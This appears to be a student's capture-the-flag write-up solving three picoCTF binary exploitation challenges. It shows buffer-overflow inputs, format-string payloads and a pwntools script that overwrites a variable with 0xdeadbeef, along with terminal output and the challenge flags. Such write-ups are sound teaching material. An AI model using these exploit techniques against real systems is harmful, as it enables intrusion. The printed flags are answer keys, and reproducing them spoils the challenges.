

# 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).
Connect using:
nc saturn.picoctf.net 57982

## Solution:

- I opened up the vuln.c file to inspect the code and noticed that the program prints out the flag when a segmentation fault is obtained.
- I noticed that the code uses gets() instead of fgets() so the size of the input taken is not specified and the input is taken into an array of only 16 bytes as evident from the statements:

```c
char buf2[16];
  strcpy(buf2, input)
```
- So, I added a healthy amount of padding and gave the input "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" to the program and this lead to a segmentation fault as expected and this led to the flag being printed.



## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Learnt how buffer overflows work

## Notes:

- Nil

## Resources:

- [owasp - Buffer Overflow](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)

***


# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy?
Download the binary [here](https://artifacts.picoctf.net/c_mimas/76/format-string-0).
Download the source [here](https://artifacts.picoctf.net/c_mimas/76/format-string-0.c).
Additional details will be available after launching your challenge instance.

## Solution:

- I opened up the source code and went through it carefully
- I figured out that program simulates a restaurant where the user is given three options and has to choose one 'food item' to be made.
- The option chosen is then stored in an array called choice1.
- Then, another variable 'count' is introduced which stores the value of printf(choice1)
- Then, the size of count is compared against 2 * bufsize. The bufsize is 32 so if count is bigger than 64 bytes then the flag is printed.
- Therefore, I had to choose an option with a format specifier such that when the printf command is used, it expands the format specifier into a large enough entity so that the count variable has a value greater than 64.
- This whole process is done twice
- Therefore the first time, I chose the option "Gr%114d_Cheese", which contains the format specifier %114d which will expand into an integer 114 characters long which is greater than 64
- In the next choice, I chose "Cla%sic_Che%s%steak", which contains the format specifier for a string (%s) thrice.
- These lead to buffer overflows and the flag being printed.

```bash
neelaypuranik@Neelays-Laptop:~$ nc mimas.picoctf.net 64152
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^C
neelaypuranik@Neelays-Laptop:~$ nc mimas.picoctf.net 64152
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
^C
neelaypuranik@Neelays-Laptop:~$
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```

## Concepts learnt:

- Learnt how to exploit the expansion of format specifiers when commands like printf are used to overflow the buffer

## Notes:

- Nil

## Resources:

- Nil

***


# 3. clutter-overflow

> Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890
Challenge Endpoints:
Download [chall.c](https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c)
Download [chall](https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall)

## Solution:

- I opened up the source code and noticed that there are two preprocessor macros: SIZE and GOAL
- SIZE is of 256 bytes.
- Then, the code prints its header, etc. and then it uses the command gets(clutter)
- This is a dangerous command because gets() does not regulate input and if the input will be of greater than ~256 bytes then the previously initialized variable 'code' will be overwritten with the extra bytes from the input
- To test this out, I first sending a lot of A's and noticed that code got overwritten to "0x4141414141414141"

```bash
neelaypuranik@Neelays-Laptop:~$ nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
code == 0x4141414141414141
code != 0xdeadbeef :(
```
- Then, I tried to figure out the exact number of A's I can send without the code variable being overwritten and I found that to be 264 after some trial and error
- To change the value of code to 0xdeadbeef, I had to attach that after the 264 A's
- I was not aware of how to do this initially and after some research, I figured out that pwntools has a way to do this.
- Therefore, I booted up pwntools and ran the following commands to obtain the flag:

```bash
neelaypuranik@Neelays-Laptop:~$ python3
Python 3.10.12 (main, Aug 15 2025, 14:32:43) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
r>>> r = remote('mars.picoctf.net',31890)
[x] Opening connection to mars.picoctf.net on port 31890
[x] Opening connection to mars.picoctf.net on port 31890: Trying 3.15.72.211
[+] Opening connection to mars.picoctf.net on port 31890: Done
>>> r.interactive()
[*] Switching to interactive mode
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
^C[*] Interrupted
>>> r.sendline(b'A' * 264 + p64(0xdeadbeef))
>>> r.interactive()
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
[*] Got EOF while reading in interactive
^C[*] Interrupted
>>>
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Learnt how to use pwntools to exploit poorly written programs

## Notes:

- Nil

## Resources:

- [Pwntools - Pwn Zero To Hero 0x04](https://www.youtube.com/watch?v=9wepzpQhhio)

***
